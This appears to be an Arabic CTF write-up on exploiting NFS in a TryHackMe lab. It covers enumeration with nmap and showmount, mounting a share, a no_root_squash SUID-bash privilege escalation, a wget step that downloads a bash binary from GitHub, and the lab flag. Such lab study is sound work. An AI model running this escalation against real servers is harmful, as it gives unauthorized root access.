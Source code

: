 # Network Services_2

<details>
  <summary>NFS</summary>

<details>
  <summary>understanding</summary>

# 🧠 ما هو NFS؟

**NFS** هو بروتوكول يسمح لجهاز بمشاركة ملفات أو فولدرات مع جهاز آخر على نفس الشبكة.
على سبيل المثال، إذا كان لديك سيرفر يحتوي على ملفات، يمكنك من جهاز آخر "تركيب" (mount) هذا الفولدر ورؤية الملفات وكأنها موجودة على جهازك.

---

# 🛠️ كيف يعمل NFS؟

1. **العميل (Client)** يطلب تركيب (mount) فولدر من السيرفر.
2. **السيرفر** يتحقق مما إذا كان العميل يملك صلاحيات.
3. إذا كانت الصلاحيات صحيحة، يقوم السيرفر بإرسال **file handle**.
4. عندما يطلب العميل فتح ملف، يرسل **RPC (Remote Procedure Call)** إلى **NFSD** (خدمة NFS على السيرفر).

### يتضمن الطلب:

* File Handle
* اسم الملف
* User ID و Group ID (لتحديد الصلاحيات)

بعدها يقرر السيرفر ما إذا كان هذا المستخدم يملك صلاحية القراءة أو الكتابة على الملف.

---

# 💻 من يمكنه استخدام NFS؟

يدعم NFS أنظمة تشغيل مختلفة، مثل:

* Linux (لينكس)
* Windows (ويندوز – خاصة Windows Server)
* macOS (ماك)
* UNIX (يونيكس)

مما يسمح بنقل الملفات بين الأنظمة بسهولة وبدون مشاكل.

---

# 📚 مصادر للتعمق:

* [Oracle Docs](https://docs.oracle.com/...)
* [Datto](https://www.datto.com/...)
* [Arch Wiki](https://wiki.archlinux.org/...)

---

# 🎯 NFS في مجال الهاكينج

في اختبارات الاختراق (مثل CTFs)، قد تجد أن السيرفر يشارك مجلدات عبر NFS، وغالبًا ما يكون الإعداد ضعيف الأمان:

* يمكنك العثور على ملفات تحتوي على كلمات مرور.
* أو تركيب المجلد بصلاحيات أعلى من المفترض.
* أو حتى الكتابة على السيرفر، مما قد يؤدي إلى:

  * **Privilege Escalation** (تصعيد الصلاحيات)
  * **Persistence** (الاحتفاظ بالوصول)

  
</details>
---
<details>
  <summary>enumerating</summary>


# 🗂️ NFS Enumeration — TryHackMe

## 💥 ما هي Enumeration؟

**Enumeration** هي المرحلة اللي بتبدأ فيها تتفاعل مع الهدف بعد ما تعرف أنه شغال. هدفها جمع أكبر قدر من المعلومات مثل:
- البورتات المفتوحة
- الخدمات الشغالة
- الملفات أو الصلاحيات المتاحة
- المشاركة عبر الشبكة (مثل NFS)

---

## 🛠️ الأدوات المطلوبة: nfs-common

### 📦 لتثبيت الأداة:
```bash
sudo apt update && sudo apt install nfs-common -y
```

### أهم الأدوات داخل `nfs-common`:
- `showmount` → لمعرفة الـ shares المتاحة.
- `mount` → لتركيب الـ NFS share على جهازك.

---

## 🔍 فحص البورتات (Port Scanning)

استخدم `nmap` لاكتشاف البورتات والخدمات، خصوصًا NFS (عادةً على بورت 2049):

```bash
nmap -A -p- 10.10.x.x
```

- `-A` → تشغيل الكشف عن النظام والخدمات
- `-p-` → فحص كل البورتات (1 إلى 65535)

---

## 📂 تركيب (Mount) NFS Share

### 1️⃣ إنشاء مجلد محلي:
```bash
mkdir /tmp/mount
```

### 2️⃣ تركيب الـ NFS Share:
```bash
sudo mount -t nfs <IP>:<share> /tmp/mount/ -nolock
```

#### مثال:
```bash
sudo mount -t nfs 10.10.254.46:/shared /tmp/mount/ -nolock
```

---

### 💬 شرح الأمر:

| الجزء               | معناه                                                      |
|---------------------|-------------------------------------------------------------|
| `sudo`              | تشغيل الأمر كـ root                                         |
| `mount`             | أمر تركيب الملفات                                           |
| `-t nfs`            | تحديد أن النوع NFS                                          |
| `IP:share`          | عنوان السيرفر ومسار المشاركة                                |
| `/tmp/mount/`       | المكان اللي هيظهر فيه الشير عندك                            |
| `-nolock`           | تجاوز مشاكل locking (مفيد في CTF)                          |

---

## 🧠 الخلاصة

- Enumeration هي خطوة أساسية قبل الهجوم.
- NFS يسمح بمشاركة ملفات عبر الشبكة.
- استخدم `showmount` و `mount` لتصفح وسحب الملفات.



---


```
nmap -A -p- 10.10.58.68
```

```ruby
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-05 18:00 EDT
Stats: 0:01:53 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 52.26% done; ETC: 18:03 (0:01:43 remaining)
Nmap scan report for 10.10.58.68
Host is up (0.089s latency).
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 89:ce:8b:ba:18:15:4e:df:4a:72:ff:fa:f5:79:fa:07 (RSA)
|   256 11:34:2c:a1:57:23:ad:dd:d3:87:ca:46:64:55:10:fc (ECDSA)
|_  256 40:ae:b7:7d:8a:88:75:b1:64:e6:80:d3:6a:d2:a0:f9 (ED25519)
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34617/udp6  mountd
|   100005  1,2,3      41543/tcp6  mountd
|   100005  1,2,3      47131/udp   mountd
|   100005  1,2,3      55605/tcp   mountd
|   100021  1,3,4      37739/tcp   nlockmgr
|   100021  1,3,4      44665/tcp6  nlockmgr
|   100021  1,3,4      55473/udp6  nlockmgr
|   100021  1,3,4      58643/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open  nfs      3-4 (RPC #100003)
37739/tcp open  nlockmgr 1-4 (RPC #100021)
42227/tcp open  mountd   1-3 (RPC #100005)
51739/tcp open  mountd   1-3 (RPC #100005)
55605/tcp open  mountd   1-3 (RPC #100005)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 995/tcp)
HOP RTT      ADDRESS
1   86.46 ms 10.8.0.1
2   88.57 ms 10.10.58.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 269.36 seconds

```

---

```
/usr/sbin/showmount -e 10.10.58.68
```

![image](https://github.com/user-attachments/assets/48c71fcb-0ecd-42db-a5fa-6d80aa6a09c0)

---

```
mkdir /tmp/mount
sudo mount -t nfs 10.10.58.68:/home /tmp/mount/ -nolock
```

![image](https://github.com/user-attachments/assets/b05502a0-f46b-462b-9b34-5ad2f3002891)

---
![image](https://github.com/user-attachments/assets/84239b60-0a24-493b-81f9-3aadfd463125)


![image](https://github.com/user-attachments/assets/806ef472-f80d-4c63-85bd-46a34dee8518)






```
ssh -i id_rsa cappucino@10.10.58.68
```

![image](https://github.com/user-attachments/assets/dc237cc6-0734-49e3-8769-633bd86245af)









  
</details>
---
<details>
  <summary>exploiting</summary>



# 🚀 NFS Privilege Escalation via Root Squash Misconfiguration

## 🧠 ما هو Root Squash؟

`root_squash` هو إعداد في NFS يمنع المستخدمين اللي يدخلوا من أجهزة خارجية من استخدام صلاحيات root.

- ✅ إذا كان **مُفعل**: أي اتصال من مستخدم root → يتحول تلقائيًا إلى مستخدم `nfsnobody`
- ❌ إذا كان **غير مُفعل** (misconfigured): يسمح للمستخدم يرفع ملفات ويعطيها صلاحيات root، وده خطر جدًا!

---

## 🔐 ما هو SUID؟

**SUID (Set User ID)**: لما يكون ملف تنفيذي عليه SUID، أي حد يشغله بيشتغل بنفس صلاحيات صاحب الملف (مثل root).

### مثال:
```bash
chmod +s bash
ls -l bash
# -rwsr-xr-x 1 root root 1183448 Jun  5 13:15 bash
```

هنا `s` معناها SUID مفعّل.

---

## 🧨 الهجوم خطوة بخطوة:

### ✅ الخطوة 1: نزل ملف bash من جهاز الضحية

لو عندك key لل SSH:
```bash
scp -i id_rsa username@10.10.58.68:/bin/bash ~/Downloads/bash
```

أو تقدر تحمله من الإنترنت (إذا مشيت معاك):
```bash
wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
chmod +x bash
```

---

### ✅ الخطوة 2: ارفع bash إلى الـ NFS Share

افترض إنك عملت mount للـ NFS في `/mnt/nfs`:
```bash
cp bash /mnt/nfs/bash
```

---

### ✅ الخطوة 3: عيّن صلاحيات SUID

```bash
chmod +s /mnt/nfs/bash
ls -l /mnt/nfs/bash
# -rwsr-xr-x 1 root root ... bash
```

---

### ✅ الخطوة 4: اتصل بالجهاز عبر SSH

```bash
ssh -i id_rsa username@10.10.58.68
```

---

### ✅ الخطوة 5: شغّل الباش اللي عليه SUID بصلاحيات root

```bash
/mnt/nfs/bash -p
```

💥 وهتلاحظ إنك بقيت root:

```bash
whoami
# root
```

---

## 🔁 الخلاصة: مسار التصعيد الكامل

```text
NFS Access
    ↓
Low Privilege Shell
    ↓
Upload Bash Executable to the NFS Share
    ↓
Set SUID Bit via NFS
    ↓
Login via SSH
    ↓
Execute Bash with -p
    ↓
🎯 Root Access Achieved
```

---

## 📌 ملاحظات مهمة:

- تأكد من أن المجلد في NFS mounted عندك.
- تأكد من صلاحيات الـ share (إنه بيقبل SUID).
- استخدم `bash -p` دايمًا لتشغيل shell بـ privileges.





----

```
cat /etc/exports
```

![image](https://github.com/user-attachments/assets/c57c6be9-b09b-4569-97ed-7fb7e7db9e1e)

found ``/home           *(rw,no_root_squash)``


----

```
scp -i id_rsa username@10.10.58.68:/bin/bash ~/Downloads/bash
```

```
sudo cp ~/Downloads/bash /tmp/mount/bash
```

```
sudo chmod +s /tmp/mount/bash
```

![image](https://github.com/user-attachments/assets/41d82a35-4ba7-4415-9cff-118f76b08141)


```
ssh -i id_rsa cappucino@10.10.58.68
```

now run ``bash`` file :


![image](https://github.com/user-attachments/assets/ff131676-ca3a-4bd1-9584-cdfb7b2ff56d)


```
THM{nfs_got_pwned}
```

# الخلاصه 

1. إحنا ركّبنا مجلد من السيرفر عن طريق الـ NFS.
2. في السيرفر ده، إعداد الـ NFS مش مفعل root_squash.
3. يعني لو أنا من جهازي رفعت ملف لمجلد الـ NFS وملّكته للـ root → السيرفر هيحترم ده!
4. فإحنا:
5. نسخنا نسخة من bash
6. حطيناها في /tmp/mount/bash
7. وفعّلنا عليها SUID
8. لما نرجع نسجل دخول عادي على السيرفر:
9. ونجرب نشغّل /tmp/mount/bash -p
10. هيشتغل كأننا root!









  
</details>


</details>

-------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>SMTP</summary>

<details>
  <summary>understanding</summary>
</details>
---
<details>
  <summary>enumerating</summary>
</details>
---
<details>
  <summary>exploiting</summary>
</details>


</details>

-------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>MYsql</summary>

<details>
  <summary>understanding</summary>
</details>
---
<details>
  <summary>enumerating</summary>
</details>
---
<details>
  <summary>exploiting</summary>
</details>


</details>

-------------------------------------------------------------------------------------------------------------------------------------------
